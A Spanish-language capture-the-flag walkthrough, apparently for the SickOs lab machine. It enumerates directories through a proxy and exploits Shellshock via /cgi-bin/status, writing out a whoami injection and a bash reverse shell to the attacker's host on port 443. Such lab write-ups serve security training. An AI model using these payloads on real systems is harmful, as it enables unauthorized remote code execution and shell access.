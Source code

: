 Para que se pueda llevar la bash del servidor tiene que ser un poco antigua

OJO AL UTILIZAR GOBUSTER TENEMOS QUE AGREGAR EL PARAMETRO:
		--add-slash para que encuentre mas directorios ocultos
		quedaria asi nuestro estaneo:
`gobuster dir -u http://192.168.0.249/ --proxy http://192.168.0.249:3128 -w /usr/share/seclistis/Dscovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash`

![[Pasted image 20250415140103.png]]

Como podemos ver en la imagen encontramos un /cgi-bin/ y eso significa que podemos proceder con un shellshock
en base a eso podemos realizar nuestro escaneo buscando archivos con extension pl,sh,cgi

`gobuster dir -u http://192.168.0.249/ --proxy http://192.168.0.249:3128 -w /usr/share/seclistis/Dscovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x pl,sh,cgi

Hemos encontrado /status en la respuesta
nos metemos mediante el proxy
![[Pasted image 20250415140534.png]]

Veamos que tiene dentro:
![[Pasted image 20250415141128.png]]

ahora le hacemos curl a la web y nos arroja lo siguiente:

`curl -s http://127.0.0.1/cgi-bin/status --proxy http://192.168.0.249:3128 | jq`

`{`
  `"uptime": " 01:41:07 up 3:37, 0 users, load average: 0.00, 0.13, 0.14",`
  `"kernel": "Linux SickOs 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux"`
`}`

Aqui se esta haciendo una actualizacion en tiempo real, el comando uptime se esta actualizando

Hay un articulo de cloudfare blog donde nos podemos apoyar llamado Inside ShellShock How hackers are using it to exploit systems

[Inside Shellshock: How hackers are using it to exploit systems](https://blog.cloudflare.com/inside-shellshock/)

Una manera tipica es jugando con el user agent donde injectan 
curl -H "User-Agent: () { :; }; /bin/eject" http://example.com


En nuestro caso utilizaremos el siguiente comando para pasar por proxy al servidor y ejecutar comandos
`*curl -s http://127.0.0.1/cgi-bin/status --proxy http://192.168.0.249:3128 -H "User Agent: () { :; }; echo; /usr/bin/whoami" *`

La respuesta que nos da:
		www-data

Ahora intentaremos ganar acceso a la maquina levantando una shell
nos levantamos un servidor 443 con nc
Realizamos el siguiente curl para entablar conexion con la maquina:

`root@parrot /opt/intro_hack/Sick0s/content $ curl -s http://127.0.0.1/cgi-bin/status --proxy http://192.168.0.249:3128 -H "User Agent: () { :; }; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.62/443 0>&1'`

Asi se veria el ataque:
![[Pasted image 20250415142519.png]]

Ahora crearemos un script el cual sera shellshock de manera automatizada

![[Pasted image 20250415150413.png]]

